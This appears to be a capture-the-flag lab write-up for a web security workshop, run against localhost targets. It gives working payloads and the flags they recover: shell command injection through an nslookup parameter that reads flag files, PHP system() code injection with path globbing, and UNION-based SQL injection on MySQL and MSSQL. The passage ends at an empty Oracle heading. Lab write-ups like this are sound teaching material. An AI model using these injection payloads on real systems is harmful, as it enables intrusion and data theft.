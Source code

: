 # Web Security Workshop Write-ups

## 0x00 Web Security Workshop Write-ups

> Author: Boik

## 0x01 Lab 1

1. `http://127.0.0.1:8080/index.php?password=1&secret_key=1`
    - ![](https://i.imgur.com/0WUnkaF.png)

**Flag: `CTF{17_5_v3ry_345y}`**

## 0x02 Lab 2

1. `http://127.0.0.1:8081/nslookup.php?nslookup=;find / -name flag.txt`
    - ![](https://i.imgur.com/Red7dqg.png)
2. `http://127.0.0.1:8081/nslookup.php?nslookup=;cat /var/git/flag.txt`
    - ![](https://i.imgur.com/ucEsLXW.png)

**Flag: `CTF{Hel10_wor14}`**

## 0x03 Lab 3

1. `http://127.0.0.1:8082/dir.php?user=root";system("/usr/b*n/find / -name flag.txt");USER="`
    - ![](https://i.imgur.com/BwKVVdV.png)
2. `http://127.0.0.1:8082/dir.php?user=root";system("/b*n/cat /usr/lib/ssh/flag.txt");USER="`
    - ![](https://i.imgur.com/mbiwH5p.png)

**Flag: `CTF{04y0_h4w411}`**

## 0x04 MySQL UNION based SQLi Practice

1. `http://127.0.0.1:8083/?id=1 and 1=2 UNION SELECT 1, 2`
    - ![](https://i.imgur.com/Wa2oX0Z.png)
2. `http://127.0.0.1:8083/?id=1 and 1=2 UNION SELECT (SELECT content FROM flags limit 1, 2), 2`
    - ![](https://i.imgur.com/6r72Ze4.png)

**Flag: `CTF{un10n_5ql_1nj3c710n_15_345y}`**

## 0x05 MSSQL UNION based SQLi Practice

1. `http://127.0.0.1:8084/?id=1 AND 1=2 UNION SELECT 1, 2`
    - ![](https://i.imgur.com/9BaTDa6.png)
2. `http://127.0.0.1:8084/?id=1 AND 1=2 UNION SELECT (SELECT TOP 1 content From (SELECT Top 2 content FROM Flags ORDER BY content ASC)x) ,2`
    - ![](https://i.imgur.com/iTvro2Q.png)

**Flag: `CTF{1_l0v3_bu7_h473_m55ql}`**

## 0x06 Oracle UNION based SQLi Practice
